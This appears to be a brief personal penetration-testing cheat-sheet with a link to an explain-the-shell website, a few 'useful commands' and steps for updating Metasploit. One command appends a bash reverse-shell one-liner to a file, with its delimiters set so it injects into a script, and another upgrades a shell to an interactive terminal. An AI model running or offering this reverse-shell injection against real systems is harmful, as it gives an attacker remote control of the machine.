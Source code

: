 - Useful website:

https://explainshell.com/


- Uesful commands:

echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/IP/4444 0>&1' #" >> filename

SHELL=/bin/bash script -q /dev/null


- How to update metasploit-framework

sudo apt update
sudo apt install metasploit-framework
sudo apt install gem
sudo gem install bundler
sudo msfdb reinit
sudo msfconsole
